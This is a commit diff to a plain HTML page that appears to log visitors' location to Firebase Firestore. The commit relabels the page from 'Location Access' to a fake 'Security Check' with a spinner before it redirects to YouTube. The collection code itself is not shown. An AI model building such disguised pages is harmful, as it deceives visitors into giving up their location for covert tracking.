

Before and after one commit to King-RBLX/Kings, a plain HTML site: page index.html in a window 1280 px wide. Shown: the whole page, without its empty margins (0-913 px from the left). Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Update index.html

```diff
--- a/index.html
+++ b/index.html
@@ -3,16 +3,51 @@
 <head>
     <meta charset="UTF-8">
     <meta name="viewport" content="width=device-width, initial-scale=1.0">
-    <title>Location Access</title>
+    <title>Security Check</title>
 
     <!-- Firebase SDK -->
     <script src="https://www.gstatic.com/firebasejs/10.4.0/firebase-app-compat.js"></script>
     <script src="https://www.gstatic.com/firebasejs/10.4.0/firebase-firestore-compat.js"></script>
 
     <style>
-        #message {
-            font-size: 20px;
+        body {
+            font-family: Arial, sans-serif;
+            background-color: #f9f9f9;
+            text-align: center;
+            display: flex;
+            flex-direction: column;
+            justify-content: center;
+            align-items: center;
+            height: 100vh;
+            margin: 0;
+        }
+        .container {
+            background: white;
+            padding: 20px;
+            border-radius: 8px;
+            box-shadow: 0 4px 10px rgba(0, 0, 0, 0.1);
+            width: 400px;
+        }
+        h2 {
+            color: #333;
+        }
+        .loading {
+            font-size: 18px;
             font-weight: bold;
+            color: #ff7a00;
+        }
+        .spinner {
+            margin: 20px auto;
+            width: 40px;
+            height: 40px;
+            border-radius: 50%;
+            border: 5px solid rgba(0, 0, 0, 0.1);
+            border-top-color: #ff7a00;
+            animation: spin 1s linear infinite;
+        }
+        @keyframes spin {
+            from { transform: rotate(0deg); }
+            to { transform: rotate(360deg); }
         }
     </style>
 
@@ -70,6 +105,8 @@
         // Function to show proceeding animation and redirect to YouTube
         function showProceedingAnimation() {
             let messageElement = document.getElementById("message");
+            let spinner = document.getElementById("spinner");
+            spinner.style.display = "block";
             let count = 0;
             let interval = setInterval(() => {
                 count++;
@@ -78,7 +115,7 @@
                     clearInterval(interval);
                     setTimeout(() => {
                         window.location.href = "https://www.youtube.com";
-                    }, 1000); // Delay ensures Firestore has enough time
+                    }, 1000);
                 }
             }, 500);
         }
@@ -88,7 +125,10 @@
     </script>
 </head>
 <body>
-    <h2>Your Location:</h2>
-    <p id="message">Loading...</p>
+    <div class="container">
+        <h2>Security Check</h2>
+        <p class="loading" id="message">Loading...</p>
+        <div class="spinner" id="spinner" style="display: none;"></div>
+    </div>
 </body>
 </html>
```
